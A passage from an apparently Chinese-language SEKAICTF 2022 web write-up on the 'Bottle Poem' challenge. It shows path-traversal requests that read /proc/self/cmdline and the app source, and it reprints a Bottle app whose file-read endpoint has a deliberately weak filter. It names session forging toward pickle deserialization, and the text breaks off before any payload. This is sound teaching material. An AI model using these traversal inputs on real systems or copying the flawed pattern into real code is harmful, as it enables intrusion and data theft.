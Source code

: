 ```yaml
---
title: SEKAICTF 2022 Web Writeup
date: 2022-10-03 22:46:00
updated: 2022-10-03 22:46:00
tags: [ctf,security]
description: 一场国外练手赛，题目质量挺高
category: CTF
---
```


## Bottle Poem

> Come and read poems in the bottle.
> No bruteforcing is required to solve this challenge. Please do not use scanner tools.
> Author: bwjy

Python Bottle框架伪造session打pickle反序列化的题目。

`/show`接口存在任意文件读取漏洞

`/show?id=../../../../../../proc/self/cmdline`得到源码位置`/app/app.py`

`/show?id=../../../../../../app/app.py`读取源码

```python
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
```